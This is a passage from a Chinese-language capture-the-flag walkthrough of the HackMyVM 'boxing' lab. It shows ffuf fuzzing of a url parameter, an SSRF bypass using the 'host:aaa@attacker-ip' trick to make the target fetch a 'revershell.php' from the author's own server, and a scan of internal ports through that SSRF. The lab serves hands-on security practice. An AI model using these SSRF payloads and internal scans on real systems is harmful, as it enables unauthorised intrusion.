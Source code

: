 <img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404040302337.png" alt="image-20240402210453358" style="zoom:33%;" />

```bash
http://staging-env.boxing.hmv/index.php?url=boxing.hmv:8080
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404040302338.png" alt="image-20240402210516930" style="zoom:50%;" />

尝试FUZZ一下：

```bash
seq 1 65535 > port.txt
ffuf -u http://staging-env.boxing.hmv/index.php?url=boxing.hmv:FUZZ -w port.txt -c -fw 395
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404040302339.png" alt="image-20240402211008332" style="zoom: 33%;" />

看来行不通欸。。。。

继续尝试：

```bash
ffuf -u http://staging-env.boxing.hmv/index.php?url=FUZZ.hmv -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -c -fw 396
```

一无所获。。。。

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404040302340.png" alt="image-20240402212709387" style="zoom:50%;" />

```
ffuf -u http://staging-env.boxing.hmv/index.php?url=FUZZ.boxing.hmv -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -c -fw 396
ffuf -u http://staging-env.boxing.hmv/index.php?url=boxing.FUZZ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -c -fw 396
```

都没啥东西。。

看到 28righthand 师傅的提示：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404040302341.png" alt="image-20240402213010375" style="zoom: 50%;" />

不知道为什么要这么构造，但是先试一下，把它记住吧：

```bash
http://staging-env.boxing.hmv/index.php?url=boxing.hmv:aaa@172.20.10.8:8888/revershell.php
python3 -m http.server 8888
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404040302342.png" alt="image-20240402213540685" style="zoom:33%;" />

确实可以读取欸，重新`fuzz`一下`127.0.0.1`的端口

```bash
ffuf -u http://staging-env.boxing.hmv/index.php?url=boxing.hmv:aaa@127.0.0.1:FUZZ -w port.txt -c -fw 395
```
